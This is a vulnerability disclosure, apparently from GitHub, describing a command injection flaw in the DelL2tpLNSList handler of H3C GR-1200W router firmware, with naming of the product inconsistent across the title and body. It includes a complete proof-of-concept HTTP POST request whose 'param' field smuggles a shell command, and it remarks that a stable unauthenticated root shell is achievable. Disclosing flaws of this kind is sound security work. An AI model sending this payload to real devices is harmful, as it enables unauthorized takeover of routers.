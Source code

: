 # TOTOLink H3C GR-1200W (<=MiniGRW1A0V100R006) Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.h3c.com/
- Firmware download address ： https://www.h3c.com/cn/d_202102/1383837_30005_0.htm

### Product Information

H3C B5 Mini B5MiniV100R005 router, the latest version of simulation overview：

![image-20220724213031606](img/image-20220724213031606.png)

## Vulnerability details

The H3C GR-1200W (<=MiniGRW1A0V100R006)  router was found to contain a command insertion vulnerability in DelL2tpLNSList.This vulnerability allows an attacker to execute arbitrary commands through the "param" parameter.

![image-20220724213415656](img/image-20220724213415656.png)

In the `DelL2tpLNSList` function, it format the `param` parameter we entered into `V13` through the `snprintf` function, and execute our command through the system function. We can execute our orders through $(command).

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.0.124:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://121.226.152.63:8443/router_password_mobile.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 553
Origin: https://192.168.0.124:80
DNT: 1
Connection: close
Cookie: JSESSIONID=5c31d502
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

CMD=DelL2tpLNSList&param=1; $(ps>/www/1);
```

![image-20220725142032977](img/image-20220725142032977.png)

![image-20220725142137070](img/image-20220725142137070.png)

The above figure shows the POC attack effect

![image-20220724220055672](img/image-20220724220055672.png)

Finally, you also can write exp to get a stable root shell without authorization.